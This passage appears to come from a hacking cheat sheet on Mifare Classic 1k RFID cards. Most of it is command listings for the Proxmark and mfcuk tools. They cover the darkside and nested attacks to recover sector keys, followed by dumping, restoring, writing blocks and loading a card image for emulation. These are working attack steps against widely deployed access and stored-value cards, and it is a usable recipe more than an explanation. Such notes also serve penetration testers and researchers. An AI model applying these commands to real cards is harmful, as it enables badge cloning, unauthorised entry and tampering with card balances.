 ```powershell
hf 14a sim 2 <7-byte tag>
```

## HF - Mifare Classic 1k

New method for Proxmark : `hf mf autopwn`

### Darkside attack (PRNG Weak)

**Proxmark method**

```powershell
pm3> hf search
pm3> hf mfu
pm3> hf mf darkside  (fork command)
pm3> hf mf mifare    (original command)
Parity is all zero. Most likely this card sends NACK on every failed authentication. # Card is empty...
or
Found valid key:ffffffffffff # KEY_FOUND

pm3> hf mf chk 0 A KEY_FOUND    (Check Found Key On Block 0 A)
```

**ACR122u method**

```powershell
# start cracking the first key of the first sector. 
mfcuk -C -R 0:A -v 3 -s 250 -S 250
mfcuk -C -R 3:A -v 3 -s 250 -S 250 -o mycard.mfc
```

### Nested attack (PRNG Weak)

> Need to find a default key to extract the others

**Proxmark method**

```powershell
hf search
hf mf chk 1 ? t                      # "Test Block Keys" command which will test the default keys for us
hf mf nested 1 0 A a0a1a2a3a4a5 t.   # "Nested Attack" use the key a0a1a2a3a4a5, keeping the key in memory with "t"
hf mf chk * ?                        # "Test Block Keys" command which will test the default keys for us
hf mf nested 1 0 A ffffffffffff   d  # "Nested Attack" use the key ffffffffffff to extract the others (file:dumpkeys.bin)
hf mf dump 1                         # Dump content
hf mf restore 1                      # Restore content into the card
hf mf wrbl 5 A 080808080808 32110000cdeeffff3211000005fa05fa  # write on block 5, with the key 0808... the content 3211...
hf mf rdbl 5 A 080808080808          # Read block 5 with the keu 0808..


python pm3_mfd2eml.py dumpdata.bin dumpdata.eml
pm3> hf mf cload dumpdata
```
